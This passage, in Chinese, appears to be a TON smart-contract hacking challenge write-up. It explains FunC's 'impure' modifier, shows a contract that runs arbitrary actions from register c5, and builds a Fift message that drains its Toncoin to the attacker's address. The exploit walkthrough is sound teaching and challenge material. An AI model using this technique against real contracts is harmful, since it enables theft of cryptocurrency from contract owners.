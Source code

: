 `impure` 修飾符表示函數可能會產生一些不應被忽略的副作用。例如，如果函數可以修改合約存儲、發送消息或在某些數據無效時拋出異常，我們必須指定 `impure` 修飾符。如果未指定 `impure` 且函數調用結果未被使用，則 FunC 編譯器可以且將會移除該函數調用。

在智能合約的結尾，消息體被寫入輸出操作寄存器 `c5`。因此，要入侵合約，我們只需發送一條消息，該消息將從智能合約中提取 Toncoin 加密貨幣。

```func
() execute (cell) impure asm "c5 POPCTR";

() recv_internal (in_msg_full, in_msg_body) {
	if (in_msg_body.slice_empty?()) { ;; ignore empty messages
		return ();
	}
	slice cs = in_msg_full.begin_parse();
	int flags = cs~load_uint(4);

	if (flags & 1) { ;; ignore all bounced messages
		return ();
	}
	slice sender_address = cs~load_msg_addr();

	load_data();
	authorize(sender_address);

	cell request = in_msg_body~load_ref();
	execute(request);
}
```

### 入侵消息解析

要發送消息，我們需要撰寫一個 fift 腳本（這將為我們提供一個要發送到 TON 網絡的細胞結構），讓我們從消息體開始，為此我們需要 `<b b>`。

```fift
"TonUtil.fif" include
<b  b> =: message
```

根據文檔，消息本身可能如下所示（以下代碼為 FunC）：

```func
var msg = begin_cell()
	.store_uint(0x18, 6)
	.store_slice(addr)
	.store_coins(amount)
	.store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
	.store_slice(message_body)
.end_cell();
```

因此，我們在消息體中填寫要提取 Toncoin 的地址，將金額設為 0 Gram，消息體中不寫任何內容，結果如下：

```fift
"TonUtil.fif" include
<b 0x18 6 u, 0 your address Addr, 0 Gram, 0 1 4 + 4 + 64 + 32 + 1 + 1 + u, b> =: message
```
